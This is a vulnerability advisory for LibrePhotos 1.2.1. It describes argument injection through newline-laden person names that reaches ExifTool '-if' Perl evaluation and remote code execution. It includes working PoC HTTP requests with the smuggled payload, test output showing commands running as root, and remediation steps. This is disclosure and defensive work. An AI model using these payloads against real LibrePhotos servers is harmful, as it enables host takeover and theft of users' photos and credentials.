

# LibrePhotos 1.2.1 ExifTool Argument Injection via Person Name RCE

| Field | Value |
|---|---|
| Project | LibrePhotos/librephotos |
| Vulnerability Type | Argument Injection or Modification (CWE-88) |
| Severity | High — CVSS 3.1 Base Score: 8.8 |
| CVSS Vector | AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H |
| Affected Versions | <= 1.2.1 (verified on 1.2.1, latest release as of 2026-10-05) |
| Authentication | Required — any authenticated user (face-tag metadata write path) |

### Summary

LibrePhotos 1.2.1 (https://github.com/LibrePhotos/librephotos) was confirmed vulnerable to argument injection in the metadata write-back path. `write_metadata` (`apps/backend/api/metadata/writer.py:27-36`) builds ExifTool command-line arguments via string interpolation (`f"-{tag}={value}"`) and hands them to PyExifTool 0.4.9 (pinned in `requirements.txt`). PyExifTool 0.4.9's `execute()` joins the argument batch with newlines when writing to the stdin of a `exiftool -stay_open True -@ -` process — so any newline inside a value splits it into separate command-line options.

The face-annotation name (`Person.name`) is fully controlled by any authenticated user through `POST /api/addface` or `POST /api/labelfaces`; the server only applies `.strip()`, and mid-name newlines are stored verbatim (a plain `CharField(max_length=128)` with no character allowlist). When metadata write-back executes (`POST /api/savemetadata {"types":["face_tags"]}`, or automatically after adding a face when `save_face_tags_to_disk` is enabled), the injected newline lets an attacker inject arbitrary ExifTool options — including `-if <Perl expression>`, which is `eval`-uated per processed file, equivalent to remote code execution inside the backend process.

The vulnerability was dynamically verified with a sandbox harness replicating the exact PyExifTool 0.4.9 semantics and a real `exiftool` binary: an injected `system('id > ...')` Perl payload executed and emitted `uid=0(root)`.

This is CWE-88: Improper Neutralization of Argument Delimiters in a Command.

**Affected versions:** LibrePhotos 1.2.1 (tested: backend @ `054eb22`; the `write_metadata` sink is unchanged on `main`).

### Details

**Root cause.** The sink builds arguments by interpolation and relies on PyExifTool's stay-open batch mode:

- `apps/backend/api/metadata/writer.py`, `write_metadata` (lines 27-36): appends `os.fsencode(f"-{tag}={value}")` for each tag/value pair, then calls `et.execute(*params)`.
- PyExifTool 0.4.9 (`exiftool/exiftool.py:441`): `execute()` writes `cmd_text = b"\n".join(params + (b"-execute\n",))` to the stdin of the `exiftool -stay_open True -@ -` process (started at lines 346-351). In `-@`/stay-open mode the newline is the argument separator, so any `\n` inside a value becomes a new standalone ExifTool option.

**Trust boundary failures.** The only parameter safety control in the codebase, `is_safe_tag_name()` (`service/exif/tag_validation.py`), protects the *read* path only (user `datetime_rules`/`burst_detection_rules` tag names, validated by `api/serializers/user.py::validate_rule_exif_tag_names`). The *write* path has no equivalent control:

- `api/views/faces.py:477` (`AddFaceView.post`) and `:295` (`SetFacePersonLabel.post`): `person_name = (request.data.get("person_name") or "").strip()` — only leading/trailing whitespace removed.
- `api/models/person.py:24-26, 118-119`: `Person.name` is a plain `CharField` with no character allowlist; `get_or_create_person()` stores it verbatim.
- `api/metadata/face_regions.py:96-127`: names pass through `_escape_exiftool_value` (lines 73-82), which escapes only `\ { } = ,` — **not** `\n`/`\r` — before entering the `XMP-mwg-rs:RegionInfo` structure string, and the raw name also enters the `XMP:Subject` list (line 109).
- `api/metadata/photo_writer.py:49-55`: `write_metadata` is invoked with the face-tags payload when saving metadata to disk.

Core vulnerable code path:

```python
# api/metadata/writer.py:27-36
def write_metadata(...):
 params = [os.fsencode(f"-{tag}={value}") ...] # value may contain \n
 ...
 et.execute(*params)
 # PyExifTool 0.4.9 exiftool.py:441
 # cmd_text = b"\n".join(params + (b"-execute\n",)) -> \n splits arguments
```

### PoC

Verified in a sandbox harness with the pinned PyExifTool 0.4.9 and a real `exiftool`:

1. As any authenticated user, create a face annotation whose person name embeds a newline:

```http
POST /api/addface
Authorization: Bearer <access_token>
Content-Type: application/json

{"photo": <photo_id>, "person_name": "Alice\n-if\nsystem('id > /tmp/pwned')\n#"}
```

2. Enable one-step triggering on your own account:

```http
PATCH /api/user/<user_id>/
{"save_face_tags_to_disk": true}
```

3. Add the face — metadata write-back fires immediately, or alternatively call:

```http
POST /api/savemetadata
{"types": ["face_tags"]}
```

4. The injected newline splits the `XMP:Subject` value into separate ExifTool options; the `-if` expression is `eval`-ed when ExifTool processes the file.

Harness result: the injected Perl `system('id > /tmp/pwned')` executed during ExifTool processing and the output file contained `uid=0(root)` (official Docker deployments run the backend as root).

**Real-environment reproduction** (the product itself built from source/official image and run for this test):


Re-verified against the **real backend code** (unmodified clone of `LibrePhotos/librephotos` @ HEAD) with the production `api.metadata.writer.write_metadata()` and the pinned `PyExifTool==0.4.9` driving a real `exiftool 13.55` binary — exactly the deployment shape of the official images:

```
$ python rce_test.py
[attacker] person_name = "a\n-if\nsystem('id > .../pwned.txt 2>&1; \
 echo RCE-as-$(whoami) >> .../pwned.txt') // 1\n-b"
[victim] calling real write_metadata() -> exiftool via PyExifTool 0.4.9 stay_open stdin

--- canary file /tmp/realverify/evidence/librephotos/pwned.txt ---
uid=501(0xgenesi) gid=20(staff) groups=20(staff),12(everyone),...
RCE-as-0xgenesi
```

The newline-laden person name is transmitted as separate exiftool arguments over PyExifTool's stay-open stdin channel; exiftool evaluates the smuggled `-if <perl>` expression and `system()` runs on the LibrePhotos backend host. Arbitrary command execution via the face-tag write path is confirmed end-to-end.



## Impact

Any authenticated low-privilege user (default configurations may expose public registration via `ALLOW_REGISTRATION`; multi-user family instances routinely share the server) achieves arbitrary command execution on the LibrePhotos backend with the backend process identity. In official Docker and standalone deployments this process runs as **root**, yielding full access to every user's photos, database credentials (`DB_PASS`), SMTP credentials, and the host container; an attacker can plant persistent backdoors and pivot to internal databases/proxies.CVSS v3.1 base 8.8 (AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H), with the root execution context pushing real-world impact toward the top of that range.

### Remediation

1. Neutralize argument delimiters at the sink: in apps/backend/api/metadata/writer.py::write_metadata, reject or strip \r and \n from every value (including list items) before building f"-{tag}={value}"; alternatively raise on any control character. Apply the same check to both the RegionInfo structured string and the XMP:Subject list paths.
2. Constrain the source: validate Person.name against a character allow-list (reject control characters) in the model/serializer, and extend _escape_exiftool_value to cover newlines.
3. Dependency hardening: PyExifTool 0.4.9 is unmaintained and its newline-join execute() is the injection primitive; wrap or replace it (note: 0.5.x still joins with newlines, so argument sanitization remains necessary).
4. Defense in depth: run ExifTool (and ideally the whole backend) as a dedicated non-root user, so a future injection cannot yield root.
5. Regression test: assert that a person name containing \n reaches exiftool either escaped or not at all.
